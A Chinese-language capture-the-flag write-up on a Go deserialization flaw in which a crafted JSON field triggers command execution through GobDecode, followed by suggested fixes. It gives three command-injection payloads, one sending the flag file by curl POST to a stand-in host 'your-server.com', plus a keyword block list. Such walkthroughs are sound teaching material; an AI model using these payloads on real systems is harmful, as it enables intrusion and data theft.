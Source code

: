 ### 漏洞成因

1. **设计缺陷**: 在反序列化接口中实现了命令执行逻辑
2. **输入验证不足**: 没有对特殊字段进行过滤
3. **权限控制缺失**: 普通用户也能利用此漏洞

### 攻击向量

1. **数据序列化流程**:
   - 用户输入 JSON → 检测特殊字段 → 直接存储原始字符串
   - 绕过了正常的 Gob 编码过程

2. **反序列化触发**:
   - 查看报告 → 从 Redis 读取数据 → 触发 GobDecode → 命令执行

## 获取 Flag

### 方法一: 直接读取
```json
{"data_processor":"config_update:exec:cat /flag.txt"}
```

### 方法二: 写入 Web 目录
```json
{"data_processor":"config_update:exec:cp /flag.txt /app/static/flag.txt"}
```
然后访问 `http://target:8080/static/flag.txt`

### 方法三: 外带数据
```json
{"data_processor":"config_update:exec:curl -X POST http://your-server.com/flag -d \"$(cat /flag.txt)\""}
```

## 防御措施

### 代码层面

1. **安全的反序列化实现**:
```go
func (d *DataProcessor) GobDecode(data []byte) error {
    // 只进行安全的数据解析
    return gob.NewDecoder(bytes.NewReader(data)).Decode(&d.Data)
}
```

2. **输入验证**:
```go
// 检查危险字段
dangerousFields := []string{"data_processor", "exec", "config_update"}
for _, field := range dangerousFields {
    if strings.Contains(inputData, field) {
        return errors.New("invalid input")
    }
}
```
